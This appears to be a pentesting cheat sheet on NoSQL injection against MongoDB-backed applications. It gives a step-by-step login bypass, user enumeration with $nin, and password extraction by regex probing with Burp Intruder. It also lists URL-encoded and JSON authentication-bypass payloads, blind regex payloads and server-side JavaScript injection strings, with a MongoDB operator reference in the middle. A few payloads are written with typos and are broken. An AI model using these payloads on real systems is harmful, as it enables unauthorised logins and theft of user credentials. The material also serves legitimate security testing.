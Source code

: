 ## Login Page:

### 1: Burpsuite

### 2: Random input creds (test,tset)

### 3: user[$ne]=test&pass[$ne]tset

### This forces the database to return all user documents and as a result we are logged in.

## Logging in as other users:

### Use [$nin][] to retrieve a list of values to ignore. Keep using until it throws an error (user enumeration)

### Example:

#### user[$in][]=admin&user[$nin[]=john&pass[$ne]=pass

## Extracting users' passwords

### [$regex]=^.{num}$

#### Then if you found the num,

### pass[$regex]=^........$ then use a wordlist for 1 letter/number/symbol for each row until it guesses it with intruder.


## MongoDB Usage

- Connect to MongoDB: `mongosh mongodb://127.0.0.1:27017`
- List databases: `show databases`
- List collections: `show collections`
- Insert data: `db.collection.insertOne({...})`
- Insert lots of data: `db.apples.insertMany([{...},{...},...])`
- Selecting data: `db.collection.find({...})`
- Selecting one piece of data: `db.collection.findOne({...})`
- Update (one) document: `db.collection.updateOne({...}, {...})`
- Update multiple documents: `db.collection.updateMany({...}, {...})`
- Delete document(s): `db.apples.remove({...})`

#### Query Operators

| Type | Operator | Description | Example |
|---|---|---|---|
| Comparison | `$eq` | Matches values which are `equal to` a specified value | `type: {$eq: "Pink Lady"}` |
| Comparison | `$gt` | Matches values which are `greater than` a specified value | `price: {$gt: 0.30}` |
| Comparison | `$gte` | Matches values which are `greater than or equal to` a specified value | `price: {$gte: 0.50}` |
| Comparison | `$in` | Matches values which exist `in the specified array` | `type: {$in: ["Granny Smith", "Pink Lady"]}` |
| Comparison | `$lt` | Matches values which are `less than` a specified value | `price: {$lt: 0.60}` |
| Comparison | `$lte` | Matches values which are `less than or equal to` a specified value | `price: {$lte: 0.75}` |
| Comparison | `$nin` | Matches values which are `not in the specified array` | `type: {$nin: ["Golden Delicious", "Granny Smith"]}` |
| Logical | `$and` | Matches documents which `meet the conditions of both` specified queries | `$and: [{type: 'Granny Smith'}, {price: 0.65}]` |
| Logical | `$not` | Matches documents which `do not meet the conditions` of a specified query | `type: {$not: {$eq: "Granny Smith"}}` |
| Logical | `$nor` | Matches documents which `do not meet the conditions` of any of the specified queries | `$nor: [{type: 'Granny Smith'}, {price: 0.79}]` |
| Logical | `$or` | Matches documents which `meet the conditions of one` of the specified queries | `$or: [{type: 'Granny Smith'}, {price: 0.79}]` |
| Evaluation | `$mod` | Matches values which divided by a `specific divisor` have the `specified remainder` | `price: {$mod: [4, 0]}` |
| Evaluation | `$regex` | Matches values which `match a specified RegEx` | `type: {$regex: /^G.*/}` |
| Evaluation | `$where` | Matches documents which `satisfy a JavaScript expression` | `$where: 'this.type.length === 9'` |


## Authentication Bypass / Data Exfiltration Payloads:

#### URL-Encoded

- `param[$ne]=x`
- `param[$gt]=`
- `param[$gte]=`
- `param[$lt]=~`
- `param[$lte]=~`
- `param[$regex]=.*`

#### JSON

- `{param: {$ne: 'x'}}`
- `{param: {$gt: ''}}`
- `{param: {$gte: ''}}`
- `{param: {$lt: '~'}}`
- `{param: {$lte: '~'}}`
- `{param: {$regex: '.*'}}`
- `{param: {$nin: []}}`

## Blind NoSQLi Payloads:

#### URL-Encoded

- `param[$regex]=^XYZ.*$`

#### JSON

- `{param: {$regex: '^XYZ.*$}}`


### Server-Side JavaScript Injection Payloads:

- ```' || true || ''=='```
- ```" || true || ""=="```

---

This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.

Some other resources you may want to refer to may be:
- [PayloadAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [HackTricks - NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [NullSweep - NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/)
